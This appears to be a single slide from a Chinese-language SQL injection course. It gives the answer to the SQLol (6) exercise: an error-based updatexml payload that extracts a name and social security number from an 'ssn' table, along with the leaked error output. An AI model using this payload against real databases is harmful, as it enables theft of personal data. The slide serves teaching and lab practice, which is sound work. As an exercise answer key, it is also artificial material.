

# SQL注入实例 – SQLol（6）答案
与SQLol（4）类似
' or updatexml(0,concat(0x01,(SELECT concat(name,' ',ssn) FROM ssn limit 0,1)),0) #
XPATH syntax error: 'Wengdack Slobdegoob 000-00-1112'